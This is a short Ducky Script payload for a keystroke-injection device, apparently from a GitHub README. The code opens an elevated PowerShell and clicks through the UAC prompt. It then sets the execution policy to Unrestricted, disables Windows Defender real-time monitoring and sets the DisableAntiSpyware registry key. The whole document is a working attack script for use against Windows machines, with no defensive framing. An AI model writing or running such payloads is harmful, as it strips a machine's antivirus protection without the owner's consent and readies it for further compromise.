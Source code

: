 ## Opening a Powershell as Admin + Diable Windows Defender
*Note: only works if no password is required for admin*

    DELAY 2000
    GUI r
    DELAY 3000
    STRING powershell Start-Process powershell -Verb runAs
    ENTER
    DELAY 3000
    ALT y
    DELAY 3000
    LEFTARROW
    DELETE
    ENTER
    DELAY 3000
    STRING Set-ExecutionPolicy Unrestricted -Force
    ENTER
    DELAY 3000
    STRING Set-MpPreference -DisableRealtimeMonitoring $true -Force
    ENTER
    DELAY 3000
    STRING New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
